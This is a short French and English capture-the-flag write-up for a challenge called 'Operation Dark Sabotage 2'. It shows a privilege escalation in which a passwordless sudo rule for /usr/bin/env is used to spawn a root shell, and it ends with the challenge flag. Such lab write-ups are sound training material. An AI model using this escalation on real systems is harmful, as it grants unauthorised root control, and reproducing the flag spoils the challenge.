 # Operation Dark Sabotage 2

## Write-up FR

On remarque que l'on peut exécuter des commandes en tant que `root` avec `sudo` :
```bash
$ sudo -l
Matching Defaults entries for x-wings on c3246ecf1a97:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User x-wings may run the following commands on c3246ecf1a97:
    (root) NOPASSWD: /usr/bin/env
```

Puisque nous avons l'autorisation d'exécuter `/usr/bin/env` en tant que `root` sans mot de passe, nous pouvons l'utiliser pour obtenir un shell `root` :
```bash
$ sudo /usr/bin/env /bin/bash
# whoami 
root
```

## Write-up EN

We notice that we can execute commands as `root` using `sudo` :
```bash
$ sudo -l
Matching Defaults entries for x-wings on c3246ecf1a97:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User x-wings may run the following commands on c3246ecf1a97:
    (root) NOPASSWD: /usr/bin/env
```
Since we have permission to run `/usr/bin/env` as `root` without a password, we can use it to spawn a `root` shell :
```bash
$ sudo /usr/bin/env /bin/bash
# whoami 
root
```

## Flag

`polycyber{d3str0y_th3_xw1ngs}`